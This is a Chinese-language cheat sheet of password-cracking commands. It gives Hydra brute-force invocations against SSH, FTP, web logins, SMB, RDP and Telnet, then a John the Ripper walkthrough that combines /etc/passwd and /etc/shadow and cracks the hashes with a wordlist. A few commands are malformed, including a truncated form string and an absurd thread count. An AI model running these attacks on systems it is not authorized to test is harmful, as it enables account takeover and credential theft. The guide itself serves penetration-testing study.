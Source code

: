 # Crack
---
hydra 

Hydra –L 文件路径 –P 密码路径 t 线程 –vV 详细显示 –o 指定生成路径 –f 找到密码就停止 –e ns 空密码和指定密码试探 ip service 爆破服务

爆破ssh：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh

hydra -l 用户名 -p 密码字典 -t 线程 -o /1 -vV ip ssh

爆破ftp：

hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) –vV

hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV

爆破web登录(get)：

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get/admin/

hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get/admin/index.PHP

爆破web登录(post)：

hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form"/admin/login.php:user

hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form"login.php:id=USER&passwd=PASS:"

https爆破：

hydra -m /index.php -l admin -P pass.txt 10.36.16.18 https

smb爆破：

hydra -l administrator -P pass.txt 10.36.16.18 smb

rdp爆破：

hydra -l administrator -P pass.txt –o /root/1 –V rdp://ip

telnet爆破：

hydra ip telnet -L 用户 -P 密码 -e ns -f -v -t 1000000000000000


---
John the Ripper

John the Ripper是一个快速的密码破解工具，用于在已知密文的情况下尝试破解出明文，支持目前大多数的加密算法，如DES、MD4、MD5等。它支持多种不同类型的系统架构，包括Unix、Linux、Windows、DOS模式、BeOS和OpenVMS，主要目的是破解不够牢固的Unix/Linux系统密码。除了在各种Unix系统上最常见的几种密码哈希类型之外，它还支持Windows LM散列，以及社区增强版本中的许多其他哈希和密码。它是一款开源软件。Kali中自带John。

可执行文件位置：  /usr/sbin/john 

密码字典所在目录：/usr/share/john/ 

John the Ripper支持字典破解方式和暴力破解方式

破解Linux系统密码

破解Linux用户密码需要使用到两个文件（包含用户的信息和密码hash值）

/etc/passwd       包含用户信息的文件

/etc/shadow       包含密码信息的文件

创建一个 abc 用户，密码设置为 password ，用来测试



使用 unshadow 命令组合 /etc/passwd 和 /etc/shadow ，组合成 test_passwd 文件。其他 test_passwd 就是 /etc/passwd 和 /etc/shadow 的简单组合: 

unshadow  /etc/passwd  /etc/shadow >  test_passwd 

然后用 John 破解密码了。我们可以使用 John 自带的密码字典，位于 /usr/share/john/password.lst ，也可以使用我们自己的密码字典。用John自带的密码字典为例： 

john  test_passwd 

若使用自己的密码字典： 

john  --wordlist=字典路径    test_passw 

查看破解信息：

john  --show  test_passwd 

